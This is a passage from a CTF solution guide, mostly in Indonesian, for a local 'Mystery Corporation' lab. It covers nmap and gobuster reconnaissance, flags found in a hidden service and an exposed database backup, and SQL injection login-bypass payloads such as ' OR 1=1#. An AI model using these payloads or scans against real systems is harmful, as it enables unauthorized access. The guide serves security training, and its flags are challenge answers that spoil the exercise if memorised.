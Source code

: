 # 🔍 Mystery Corporation CTF - Complete Solution Guide

## 🎯 Overview
Panduan lengkap untuk menyelesaikan Mystery Corporation CTF dengan semua teknik yang diperlukan.

## 📋 Step-by-Step Solution

### Phase 1: Reconnaissance 🔍

#### 1.1 Port Scanning dengan Nmap
```bash
# Basic port scan
nmap -p- localhost

# Service detection
nmap -sV -p 8080,8081,3306 localhost

# Expected results:
# Port 8080: HTTP (main web application)
# Port 8081: HTTP (hidden service)
# Port 3306: MySQL (database)
```

#### 1.2 Directory Enumeration dengan Gobuster
```bash
# Basic directory scan
gobuster dir -u http://localhost:8080 -w /usr/share/wordlists/dirb/common.txt

# Common directories to find:
# /admin/ (403 Forbidden - requires authentication)
# /backup/ (200 OK - contains database.sql)
# /robots.txt (200 OK - contains hints)
```

#### 1.3 Information Gathering
```bash
# Check robots.txt
curl http://localhost:8080/robots.txt

# Check source code comments
curl http://localhost:8080/ | grep -i "<!--"
```

**Flags Found:**
- `FLAG{hidden_service_discovered_8081}` - Akses http://localhost:8081
- `FLAG{backup_files_exposed_g0bust3r}` - Baca /backup/database.sql

### Phase 2: SQL Injection 💉

#### 2.1 Authentication Bypass
```bash
# Method 1: Default credentials
Username: admin
Password: admin123

# Method 2: SQL Injection
Username: ' OR 1=1#
Password: anything

# Method 3: Specific user targeting
Username: detective' OR username='admin'--
Password: anything
```